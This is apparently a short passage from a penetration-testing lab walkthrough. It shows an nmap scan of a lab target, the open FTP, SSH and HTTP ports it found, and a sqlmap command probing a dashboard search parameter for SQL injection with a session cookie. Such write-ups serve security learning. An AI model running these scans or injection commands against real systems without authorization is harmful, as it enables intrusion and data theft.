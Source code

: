 Target Machine (Objective's IP Address) = 10.129.66.65

Enumeration
Just as usual, we start off with the Nmap scan:

    nmap -sC -sV 10.129.66.65
    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-21 21:05 MDT
Nmap scan report for 10.129.66.65

![image](https://user-images.githubusercontent.com/104815254/226791929-fcca7e65-5538-4fc3-829d-6cf78626f7f0.png)



Scanning their network we are able to see open ports.
Port 21(TCP) FTP
Port 22(TCP) SSH
Port 80(TCP) HTTP



![image](https://user-images.githubusercontent.com/104815254/226792261-0afd6899-daf6-4570-a25b-c773dc17504f.png)


sqlmap -u 'http://10.129.66.65/dashboard.php?search=any+query' --cookie="PHPSESSID=h2k4n1h9v1hu1p9niorpr2jga9"
